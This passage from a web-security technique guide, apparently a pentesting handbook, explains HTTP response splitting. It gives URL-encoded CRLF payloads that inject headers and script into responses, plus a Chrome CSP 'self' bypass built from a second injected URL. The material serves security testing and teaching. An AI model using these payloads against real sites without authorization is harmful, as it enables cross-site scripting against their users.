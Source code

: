 ### Content Type

If the response isn't HTML but something like JSON instead, you can still **overwrite** the `Content-Type:` header with another one. The last one counts!

[**Payload**](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)\&input=eA0KQ29udGVudC1UeXBlOiB0ZXh0L2h0bWwNCg0KPHNjcmlwdD5hbGVydChvcmlnaW4pPC9zY3JpcHQ%2B\&ieol=CRLF): `x%0D%0AContent-Type:%20text/html%0D%0A%0D%0A%3Cscript%3Ealert(origin)%3C/script%3E`

<pre class="language-http" data-title="Payload"><code class="lang-http">HTTP/1.1 200 OK
Content-Type: application/json
Some-Header: x
<strong>Content-Type: text/html
</strong><strong>
</strong><strong>&#x3C;script>alert(origin)&#x3C;/script>
</strong>
{"some": "json"}
</code></pre>

More tricks for `[INPUT]` _inside_ the existing `Content-Type` header itself can be found in [this writeup](https://gist.github.com/avlidienbrunn/8db7f692404cdd3c325aa20d09437e13). It contains a trick to escape the HTML context if your payload in the body is limited.

### Content-Security-Policy

A `Content-Security-Policy:` may be in effect on the resulting page if it comes _before your injection point_. If your XSS is limited by this, [content-security-policy-csp.md](cross-site-scripting-xss/content-security-policy-csp.md "mention") bypasses are the first thing you should look at of course. Using this Response Splitting gadget, there are some unique extra bypasses for both Chrome and Firefox.

#### Chrome load `'self'` with Content-Length truncation

It's possible to craft almost a completely arbitrary response using Response Splitting, with your exact needed headers and body. If `script-src 'self'` is defined, you may only load scripts from the current domain, which seems safe. We can bypass it, however, by crafting a 2nd Response Splitting URL and loading that as a script:

{% code overflow="wrap" %}
```html
<script src="/vuln?inject=x%0D%0AContent-Type:%20text/javascript%0D%0A%0D%0Aalert(origin)"></script>
```
{% endcode %}

This might load a response like this:

```http
HTTP/1.1 200 OK
X-Inject: x
Content-Type: text/javascript

alert(origin)<!DOCTYPE html>
<html>
<h1>Hello, world!</h1>
...
```

